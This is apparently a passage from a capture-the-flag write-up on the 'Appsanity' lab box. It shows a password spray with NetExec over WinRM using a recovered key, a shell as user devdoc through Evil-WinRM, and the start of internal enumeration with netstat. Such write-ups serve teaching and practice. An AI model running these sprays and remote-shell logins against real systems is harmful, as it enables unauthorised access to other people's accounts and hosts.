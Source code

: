 
The `EncKey` is “1g0tTh3R3m3dy!!”.

#### Shell

To check if any known user on this box uses this key, I’ll save all the users
from `net user` in a file on my host and spray with
[NetExec](https://www.netexec.wiki/). SMB isn’t accessible, but I can try
WinRM:

    
    
    oxdf@hacky$ netexec winrm meddigi.htb -u users -p '1g0tTh3R3m3dy!!' --continue-on-success
    WINRM       10.10.11.238    5985   APPSANITY        [*] Windows 10 / Server 2019 Build 19041 (name:APPSANITY) (domain:Appsanity)
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\Administrator:1g0tTh3R3m3dy!!
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\DefaultAccount:1g0tTh3R3m3dy!!
    WINRM       10.10.11.238    5985   APPSANITY        [+] Appsanity\devdoc:1g0tTh3R3m3dy!! (Pwn3d!)
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\Guest:1g0tTh3R3m3dy!!
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\svc_exampanel:1g0tTh3R3m3dy!!
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\svc_meddigi:1g0tTh3R3m3dy!!
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\svc_meddigiportal:1g0tTh3R3m3dy!!
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\WDAGUtilityAccount:1g0tTh3R3m3dy!!
    

I like `--continue-on-success` to see if multiple users share the password. It
works for devdoc, and gets a shell with Evil-WinRM:

    
    
    oxdf@hacky$ evil-winrm -i meddigi.htb -u devdoc -p '1g0tTh3R3m3dy!!'
    
    Evil-WinRM shell v3.4
    
    *Evil-WinRM* PS C:\Users\devdoc\Documents> 
    

## Shell as administrator

### Enumeration

#### Identify ReportManagement Process

In looking around the host, I’ll notice there are a bunch more ports listening
than the three I can connect to from my host:

    
    
    *Evil-WinRM* PS C:\Users\devdoc\Documents> netstat -ano
    
    Active Connections
    
      Proto  Local Address          Foreign Address        State           PID
      TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:100            0.0.0.0:0              LISTENING       4880
      TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       924
      TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       1280
      TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       692
      TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       532
      TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1116
      TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1528
      TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       668
      TCP    10.10.11.238:139       0.0.0.0:0              LISTENING       4
      TCP    10.10.11.238:5985      10.10.14.6:44310       ESTABLISHED     4
      TCP    10.10.11.238:62885     10.10.14.6:443         ESTABLISHED     4480